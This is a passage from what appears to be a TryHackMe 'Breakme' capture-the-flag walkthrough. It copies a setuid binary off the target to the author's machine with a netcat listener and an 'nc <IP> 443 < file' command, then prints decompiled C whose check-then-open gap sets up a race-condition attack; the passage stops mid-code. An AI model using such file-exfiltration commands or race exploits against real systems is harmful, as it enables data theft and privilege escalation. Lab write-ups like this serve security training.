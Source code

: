 ```bash
john@Breakme:/home/youcef$ ls -la
ls -la
total 52
drwxr-x--- 4 youcef john    4096 Aug  3  2023 .
drwxr-xr-x 5 root   root    4096 Feb  3  2024 ..
lrwxrwxrwx 1 youcef youcef     9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 youcef youcef   220 Aug  1  2023 .bash_logout
-rw-r--r-- 1 youcef youcef  3526 Aug  1  2023 .bashrc
drwxr-xr-x 3 youcef youcef  4096 Aug  1  2023 .local
-rw-r--r-- 1 youcef youcef   807 Aug  1  2023 .profile
-rwsr-sr-x 1 youcef youcef 17176 Aug  2  2023 readfile
-rw------- 1 youcef youcef  1026 Aug  2  2023 readfile.c
drwx------ 2 youcef youcef  4096 Aug  5  2023 .ssh
```

Download this file via netcat to our kali machine to analyse.

```bash
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ nc -lvnp 443 > readfile

john@Breakme:~/internal$ nc 10.17.87.131 443 < /home/youcef/readfile
```

After analysing that file with ghidra, we and up with:

```bash
if (argc != 2) {
    puts("Usage: ./readfile <FILE>");
    return 1;
} else if (access(argv[1], F_OK)) {  // checks if the file exists
    puts("File Not Found");
    return 1;
} else if (getuid() != 1002) {	// checks the running user is john
    puts("You can't run this program");
    return 1;
} else {
    includes_flag = strstr(argv[1], "flag");     // checks if the supplied argument includes "flag"
    includes_id_rsa = strstr(argv[1], "id_rsa"); // checks if the supplied argument includes "id_rsa"

    lstat(argv[1], &stat_buf);
    is_symlink = (stat_buf.st_mode & S_IFMT) == S_IFLNK;  // checks if the supplied file is a SYMLINK

    can_read = access(argv[1], R_OK);  // checks if the user john can read the supplied file
    
    usleep(0);	// will cause a delay
    
    if (!includes_flag && !includes_id_rsa && can_read != -1 && !is_symlink) // if it does not include "flag" or "id_rsa"
    {                                                                        // is not a symlink and john can read it
        puts("I guess you won!\n");											   
        fd = open(argv[1], O_RDONLY);  // open the file for reading                    
        
        if (fd < 0) {
            assert(fd >= 0 && "Failed to open the file");
        }
        
        do {
            bytes_read = read(fd, file_content_buf, 1024);  // read and print the file in chunks of 1024 bytes
            if (bytes_read < 1) break;
            bytes_written = write(STDOUT_FILENO, file_content_buf, bytes_read);
```
